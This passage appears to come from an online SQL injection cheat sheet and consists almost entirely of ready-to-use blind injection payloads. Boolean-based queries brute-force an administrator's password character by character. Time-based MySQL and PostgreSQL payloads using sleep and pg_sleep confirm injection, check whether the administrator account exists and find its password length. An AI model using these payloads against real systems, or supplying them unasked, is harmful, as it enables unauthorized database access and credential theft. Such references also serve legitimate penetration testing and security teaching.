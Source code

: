 Brute force password's character

```txt
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='$a$
' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='$a$
...
' AND (SELECT SUBSTRING(password,8,1) FROM users WHERE username='administrator')='$a$
```

  

## [Blind SQL (Time-based)](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#blind-sql-(time-based))

### [1. First Check](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#1.-first-check)

- **MySQL**
    
    ```html
    ' AND sleep(5)-- -
    ```
    

**PostgreSQL**

```html
'||pg_sleep(10)--
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
'; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--

<!--- https://hackerone.com/reports/2209130 -->
');(SELECT 1234 FROM PG_SLEEP(10))--
```

### [2. Check if Content Value Exists](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#2.-check-if-content-value-exists-1)

```txt
'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

If so, determine the password length

```txt
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
...
'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)=8) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
